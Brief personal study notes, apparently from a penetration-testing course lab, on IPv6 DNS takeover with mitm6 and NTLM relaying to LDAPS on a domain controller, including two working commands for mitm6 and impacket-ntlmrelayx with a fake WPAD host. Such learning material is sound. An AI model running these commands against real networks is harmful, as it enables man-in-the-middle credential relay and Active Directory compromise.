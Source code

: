 - We do not usually use IPv6, so there is no DNS server for IPv6.
- We can become an attacker as **DNS Server** and serve as MITM.
- Same as `SMB Relay`, **LDAP relaying**
- Tool called : **MITM 6**
# NEED TO REVIEW THIS AGAIN

![[Pasted image 20250329023348.png]]

- `impacket-ntlmrelayx -6 -t ldaps://<DC_IP> -wh fakewpad.marvel.local -l lootme`
- `sudo /opt/tools/mitm6/mitm6_env/bin/python /opt/tools/mitm6/mitm6/mitm6.py -d marvel.local`